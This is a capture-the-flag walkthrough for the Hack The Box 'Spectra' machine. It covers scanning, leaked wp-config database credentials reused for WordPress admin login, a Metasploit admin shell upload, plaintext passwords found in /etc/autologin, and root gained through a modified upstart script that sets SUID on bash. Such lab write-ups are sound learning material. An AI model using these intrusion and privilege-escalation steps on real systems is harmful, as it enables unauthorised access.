 # spectra

## nmap scan

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 10:29 CEST
Nmap scan report for spectra.htb (10.10.10.229)
Host is up (0.051s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.83 seconds
```

## website on port 80

The website is a simple html page with two link:

- the first one go on a wordpress blog (maybe used as a bugtracker)
- the second one says that there is a database connection error

Using gobuster on both sites ([site 1][1] [site 2][2]) we found that the second site is a wordpress site too and the `http://spectra.htb/testing/wp-content` lead to a directory traversal in which we can find the ***wp-config*** file

```php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

now we have an account for mysql: ***devtest:devteam01***

running `sqlmap -d "mysql://devtest:devteam01@10.10.10.229:3306/dev"` we get `"Host is not allowed to connect to this MySQL server"` also the testing site give a database connection error and looking at config file seems it tries to connect via localhost. Maybe mysql is reachable only via `127.0.0.1`.

Another thing we can try is to login into the wp-admin on main site using the password just found and username ***administrator*** as we can see into the comment section of the homepage.

Once login we can see that Wordpress is running version 5.4.2

## Wordpress 5.4.2

At this point we are administrator of wordpress so we can upload a shell to get in the system.

Metasploit offer the `unix/webapp/wp_admin_shell_upload` plugin that is very simple to configure and use. ![configuration](images/msf_opts.png)

Launching the exploit we get a shell as nginx user.

Linpeas found an odd script for autologin that store the passwords in `/etc/autologin` in which there is a file containing the password ***SummerHereWeCome!!***

Now looking into the home directory there are some usernames:

- chronos
- katie
- nginx
- root
- user

So we can try to login via ssh using the password found before. To do so we can use the `auxiliary(scanner/ssh/ssh_login)` module of metasploit to test all the users and passwords.

And we can login via ***katie:SummerHereWeCome!!***

## Katie

Katie can run via sudo:

```bash
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

Katie can write on some files inside `/etc/init` as she is part of `developers` group.

We can modify the `/etc/init/test.conf` file as follow:

```bash
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
    chmod +s bash
end script

```

and then stop the test service via `sudo /sbin/initctl stop test` now bash has SUID bit set and we can go root using `bash -p`

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
![achievement](https://www.hackthebox.eu/storage/achievements/dce4a09ba1ff2e6e289b4d0e671a6ac4.png)

[//]: #links
[1]: gobuster/main.txt
[2]: gobuster/testing.txt
